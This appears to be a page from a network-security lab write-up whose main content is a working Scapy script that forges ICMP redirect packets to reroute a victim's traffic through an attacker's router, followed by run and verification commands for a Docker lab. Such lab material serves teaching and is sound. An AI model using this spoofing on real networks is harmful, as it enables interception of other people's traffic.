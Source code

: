 ### Python Script: `icmp_spoofer.py`
```python
#!/usr/bin/env python3
from scapy.all import *
import time

# Target configuration
victim_ip = "10.9.0.5"
legit_router_ip = "10.9.0.11"
malicious_router_ip = "10.9.0.111"
target_ip = "192.168.60.5"

# ICMP redirect packet construction
ip = IP(src=legit_router_ip, dst=victim_ip)
icmp = ICMP(type=5, code=1, gw=malicious_router_ip)
original = IP(src=victim_ip, dst=target_ip)

# Final packet: IP / ICMP / Original IP / dummy ICMP
packet = ip / icmp / original / ICMP()

# Send redirect every second
try:
    while True:
        send(packet)
        time.sleep(1)
except KeyboardInterrupt:
    print("\n[+] Stopped.")
```

### Code Explanation
- **ICMP Type 5, Code 1**: Indicates host-specific redirect.
- **`gw=malicious_router_ip`**: Tells victim to send traffic to attacker.
- **`original`**: Spoofs the original IP header of victim's connection.
- **`send(packet)`**: Sends a crafted packet every second to ensure the victim accepts it.

### Run it on attacker:
```bash
docker exec -it csl-attacker bash
python3 /volumes/icmp_spoofer.py
```

### Verification
On victim:
```bash
mtr -n 192.168.60.5
```
You should now see traffic routed through `10.9.0.111`.

---

## Task 3: Passive Sniffing
